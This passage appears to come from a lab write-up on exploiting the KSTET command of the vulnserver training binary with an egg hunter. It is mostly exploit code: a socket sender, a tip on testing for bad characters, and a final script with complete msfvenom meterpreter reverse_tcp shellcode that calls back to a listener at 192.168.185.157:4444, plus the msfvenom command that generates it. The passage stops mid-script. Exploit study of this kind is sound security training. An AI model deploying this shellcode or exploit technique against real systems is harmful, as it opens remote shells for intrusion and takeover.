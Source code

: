 ```python
data = command + buffer

print '[*] Sending data: ' + command + buffer.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
s.close()
```

<img src="/images/vulnserver/kstet/kstet-send-egg-and-breakpoints.png" alt="kstet-send-egg-and-breakpoints" width="700"/>

It is really amazing to watch the egg hunter work, you can set a breakpoint before the `JMP EDI` instruction which is the last instruction to execute before jumping to the egg location if found. You can also see that the egg and breakpoints in the debugger shown below.

<img src="/images/vulnserver/kstet/kstet-crash-egg-and-breakpoints.png" alt="kstet-crash-egg-and-breakpoints" width="900"/>

Always test the final shellcode location for bad characters. It is a good habbit and should even be done for the location you use for the egg hunter assembly.

Besides the null terminator (`00`), I found no additional bad characters and updated the exploit with the final payload and as always a little nopsled for it.

```python
#!/usr/bin/env python

import socket
import sys

# msfvenom --platform windows -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.185.157 LPORT=4444 -b '\x00' -f python
egg = 'w00tw00t'
shellcode = '\x90' * 32
shellcode += '\xba\x43\xde\x96\x7d\xda\xc0\xd9\x74\x24\xf4\x5b\x31'
shellcode += '\xc9\xb1\x56\x31\x53\x13\x83\xeb\xfc\x03\x53\x4c\x3c'
shellcode += '\x63\x81\xba\x42\x8c\x7a\x3a\x23\x04\x9f\x0b\x63\x72'
shellcode += '\xeb\x3b\x53\xf0\xb9\xb7\x18\x54\x2a\x4c\x6c\x71\x5d'
shellcode += '\xe5\xdb\xa7\x50\xf6\x70\x9b\xf3\x74\x8b\xc8\xd3\x45'
shellcode += '\x44\x1d\x15\x82\xb9\xec\x47\x5b\xb5\x43\x78\xe8\x83'
shellcode += '\x5f\xf3\xa2\x02\xd8\xe0\x72\x24\xc9\xb6\x09\x7f\xc9'
shellcode += '\x39\xde\x0b\x40\x22\x03\x31\x1a\xd9\xf7\xcd\x9d\x0b'
shellcode += '\xc6\x2e\x31\x72\xe7\xdc\x4b\xb2\xcf\x3e\x3e\xca\x2c'
shellcode += '\xc2\x39\x09\x4f\x18\xcf\x8a\xf7\xeb\x77\x77\x06\x3f'
shellcode += '\xe1\xfc\x04\xf4\x65\x5a\x08\x0b\xa9\xd0\x34\x80\x4c'
shellcode += '\x37\xbd\xd2\x6a\x93\xe6\x81\x13\x82\x42\x67\x2b\xd4'
shellcode += '\x2d\xd8\x89\x9e\xc3\x0d\xa0\xfc\x8b\xe2\x89\xfe\x4b'
shellcode += '\x6d\x99\x8d\x79\x32\x31\x1a\x31\xbb\x9f\xdd\x40\xab'
shellcode += '\x1f\x31\xea\xbc\xe1\xb2\x0a\x94\x25\xe6\x5a\x8e\x8c'
shellcode += '\x87\x31\x4e\x30\x52\xaf\x44\xa6\x9d\x87\xe0\xab\x76'
shellcode += '\xd5\x12\xc5\xda\x50\xf4\xb5\xb2\x32\xa9\x75\x63\xf2'
shellcode += '\x19\x1e\x69\xfd\x46\x3e\x92\xd4\xee\xd5\x7d\x80\x47'
shellcode += '\x42\xe7\x89\x1c\xf3\xe8\x04\x59\x33\x62\xac\x9d\xfa'
shellcode += '\x83\xc5\x8d\xeb\xf3\x25\x4e\xec\x91\x25\x24\xe8\x33'
shellcode += '\x72\xd0\xf2\x62\xb4\x7f\x0c\x41\xc7\x78\xf2\x14\xf1'
shellcode += '\xf3\xc5\x82\xbd\x6b\x2a\x43\x3d\x6c\x7c\x09\x3d\x04'
shellcode += '\xd8\x69\x6e\x31\x27\xa4\x03\xea\xb2\x47\x75\x5e\x14'
shellcode += '\x20\x7b\xb9\x52\xef\x84\xec\xe0\xe8\x7a\x72\xcf\x50'
shellcode += '\x12\x8c\x4f\x61\xe2\xe6\x4f\x31\x8a\xfd\x60\xbe\x7a'
shellcode += '\xfd\xaa\x97\x12\x74\x3b\x55\x83\x89\x16\x3b\x1d\x89'
shellcode += '\x95\xe0\xae\xf0\xd6\x17\x4f\x05\xff\x73\x50\x05\xff'
shellcode += '\x85\x6d\xd3\xc6\xf3\xb0\xe7\x7c\x0b\x87\x4a\xd4\x86'
shellcode += '\xe7\xd9\x26\x83'

payload = egg + shellcode
command = 'GDOG '

```